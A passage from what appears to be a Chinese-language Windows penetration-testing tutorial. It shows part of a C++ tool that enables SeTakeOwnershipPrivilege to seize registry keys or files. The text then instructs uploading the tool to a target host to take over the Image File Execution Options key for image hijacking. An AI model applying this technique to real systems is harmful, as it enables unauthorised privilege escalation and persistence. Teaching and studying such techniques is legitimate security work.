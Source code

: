 ```c++
            {
                lpObjectType = (LPCWSTR)argv[1];
                if (!wcscmp(lpObjectType, L"Registry"))
                {
                    seObjectType = SE_REGISTRY_KEY;
                    grfAccessPermissions = KEY_ALL_ACCESS;
                }
                if (!wcscmp(lpObjectType, L"File"))
                {
                    seObjectType = SE_FILE_OBJECT;
                    grfAccessPermissions = GENERIC_ALL;
                }
            }
            break;
        case 't':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                lpObjectName = (LPCWSTR)argv[1];
            }
            break;
        default:
            wprintf(L"[-] Invalid Argument: %s.\n", argv[1]);
            PrintUsage();
            return 0;
        }

        ++argv;
        --argc;
    }

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken))
    {
        wprintf(L"[-] OpenProcessToken Error: [%u].\n", GetLastError());
        return 0;
    }
    // Enable SeTakeOwnershipPrivilege for the current process token.
    if (EnableTokenPrivilege(hToken, SE_TAKE_OWNERSHIP_NAME))
    {
        if (ExploitSeTakeOwnershipPrivilege(hToken, seObjectType, (LPWSTR)lpObjectName, grfAccessPermissions))
        {
            return 1;
        }
    }
}
```

将编译并生成好的 SeTakeOwnershipPrivilege.exe 上传到目标主机，执行以下命令接管 `Image File Execution Options` 注册表对象，然后直接通过 `reg` 命令设置映像劫持即可，如下图所示。
